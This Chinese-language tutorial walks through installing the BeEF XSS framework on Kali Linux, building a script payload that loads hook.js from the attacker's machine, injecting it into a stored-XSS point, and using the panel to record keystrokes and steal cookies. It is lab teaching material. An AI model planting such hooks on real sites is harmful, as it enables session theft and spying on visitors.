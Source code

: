 # beef-xss安装

对于新的kali 2020版的kali系统，使用 apt install beef-xss即可安装。

打开终端，输入如下命令：

```bash
apt-get update  //取更新的软件包的索引源，作用是同步源的软件包 的索引系信息，从而进行软件更新，若不执行可能安装失败

apt-get install beef-xss
```

则beef就会被安装到`/usr/share/beef-xss`目录之下

# beef-xss使用

kali可能通过直接执行命令的方式启动或关闭beef服务器，也可以通过服务的方式进行管理，在初次使用时建议使用命令方式启动，以便观察它的启动过程。

```bash
beef-xss# 命令方式启动
beef-xss-stop           # 命令方式关闭 
systemctl start beef-xss.service    #开启
beefsystemctl stop beef-xss.service     #关闭
beefsystemctl restart beef-xss.service  #重启beef
```

### beef启动

直接在终端输入`beef-xss`启动，beef的默认用户名和密码为beef和beef，首次启动强制修改默认密码，自行填写(笔者设置的是root)，按提示输入修改的密码即可，稍等一下，beef服务器则启动成功

![](https://gitee.com/YatJay/image/raw/master/img/202203032212609.png)

### beef的图形化管理后台

使用浏览器打开`http://127.0.0.1:3000/ui/panel`它的管理界面，输入默认的账号beef和您修改的密码，即可进入它的管理系统。启动后在浏览器图形界面使用上述设置的用户名`beef` 密码`root`登录

![](https://gitee.com/YatJay/image/raw/master/img/202203032216877.png)

也可以在外网通过公网IP访问beef的图形化面板，比如在本地物理机上尝试访问

`192.168.137.132:3000/ui/panel`

![](https://gitee.com/YatJay/image/raw/master/img/202203032223271.png)



输入用户名密码也可成功登陆管理界面

![](https://gitee.com/YatJay/image/raw/master/img/202203032224661.png)



### 构造payload

参考终端中给出的示例构造payload

参考示例

```js
<script src="http://IP:3000/hook.js"></script>
```

查看Kali的IP地址192.168.137.132后构造payload

```js
<script src="http://192.168.137.132:3000/hook.js"></script>
```

### 注入payload

将构造好的payload插入XSS注入点并提交

![](https://gitee.com/YatJay/image/raw/master/img/202203032225796.png)

### 触发XSS

后台用户触发XSS脚本

![](https://gitee.com/YatJay/image/raw/master/img/202203032231952.png)

当受害者打开浏览器客户端时，我们在beEf的管理后台就可以看到IP为`192.168.137.1`的主机上线

![](https://gitee.com/YatJay/image/raw/master/img/202203032247863.png)

### BeEF管理界面操作

Detailes模块是浏览器、插件版本信息，操作系统信息：

![](https://gitee.com/YatJay/image/raw/master/img/202203032253944.png)

Logs模块可以查看鼠标点击，键盘输入的一些操作：

![](https://gitee.com/YatJay/image/raw/master/img/202203032253634.png)

commands模块可以对目标系统进行入侵：

![](https://gitee.com/YatJay/image/raw/master/img/202203032252705.png)

比如Get Cookie可以获取Cookie值

![](https://gitee.com/YatJay/image/raw/master/img/202203032255432.png)

比如create Alert Dialog可以在目标系统上弹窗：

beef设置弹窗内容

![](https://gitee.com/YatJay/image/raw/master/img/202203032251993.png)

执行后目标系统就能看到弹窗了

![](https://gitee.com/YatJay/image/raw/master/img/202203032250181.png)
